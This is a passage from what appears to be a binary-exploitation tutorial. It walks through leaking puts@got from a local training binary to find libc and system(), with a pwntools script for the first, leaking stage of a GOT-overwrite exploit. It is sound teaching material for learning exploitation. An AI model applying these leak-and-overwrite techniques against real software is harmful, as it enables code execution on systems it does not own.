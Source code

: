 At the moment, we do not have a target to leak and to overwrite. We must be careful to pick a suitable one because the information leak and arbitrary write has to be performed on the same address. Additionally, the write has to result in EIP control at some point of the program's execution since we do not have that yet.

If we take a look at the source code again, the following function is called last:

Interestingly, this is perfect for our uses. If we leak the address of puts in libc, we can calculate the address of the libc base and subsequently, the address of the system function. Also, once we have that, we can write the address of the system function into the puts@got entry so that when this final line executes, it will actually execute:

```
    system(now_playing.name);
```

Which means that system will be called with a parameter that we control! How convenient!

### Writing the Exploit

First, let's see if we can leak the address of puts@got. First, we need the address.

```
ubuntu@ubuntu-xenial:/vagrant/lessons/10_bypass_got/build$ readelf -r ./1_records  | grep puts
0804a018  00000407 R_386_JUMP_SLOT   00000000   puts@GLIBC_2.0
```

Now, we can modify our earlier iterations of the exploit.

```
#!/usr/bin/python

from pwn import *

def main():
    p = process("../build/1_records")

    # Craft first stage (arbitrary read)
    leak_address = 0x0804a018    # Address of puts@got
    stage_1 = "A"*24 + p32(leak_address)
    p.recvrepeat(0.2)

    # Send the first stage
    p.send(stage_1)

    # Parse the response
    data = p.recvrepeat(0.2)
    leak = data[data.find("(")+1:data.rfind(")")]
    log.info("Got leaked data: %s" % leak)
    puts_addr = u32(leak[:4])
    log.info("puts@libc: 0x%x" % puts_addr)

    p.interactive()

if __name__ == "__main__":
    main()
```

